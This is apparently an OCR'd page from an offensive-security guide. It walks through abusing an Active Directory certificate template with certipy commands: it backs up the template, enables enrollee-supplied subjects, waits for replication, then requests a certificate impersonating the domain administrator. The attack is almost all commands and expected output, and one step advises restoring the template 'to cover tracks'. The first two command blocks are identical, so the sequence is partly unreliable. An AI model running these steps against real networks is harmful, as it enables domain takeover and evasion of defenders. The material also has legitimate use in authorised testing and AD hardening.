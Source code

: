 
#### Exploitation:

**Step 1: Backup Original Template Configuration**

```bash
certipy template -u 'user@corp.local' -p 'Password123' \
    -dc-ip 192.168.1.10 \
    -template 'SafeTemplate' \
    -save-old

# Output:
# [*] Saved old configuration to 'SafeTemplate.json'
```

**Why:** Restore later to cover tracks / avoid breaking things

---

**Step 2: Modify Template to Enable SAN**

```bash
certipy template -u 'user@corp.local' -p 'Password123' \
    -dc-ip 192.168.1.10 \
    -template 'SafeTemplate' \
    -save-old

# Certipy automatically modifies template to allow SAN specification
# No additional parameters needed
```

**Expected Output:**
```
[*] Modifying certificate template 'SafeTemplate'
[*] Enabling enrollee supplies subject
[+] Successfully modified template
```

---

**Step 3: Wait for Replication (Optional)**

```bash
# Wait 30-60 seconds for AD replication
sleep 60
```

**Why:** Template changes need to replicate across domain

---

**Step 4: Exploit as ESC1**

```bash
certipy req -u 'user@corp.local' -p 'Password123' \
    -ca 'CORP-DC01-CA' \
    -template 'SafeTemplate' \
    -upn 'administrator@corp.local' \
    -dc-ip 192.168.1.10

# Certificate issued with administrator SAN
```

---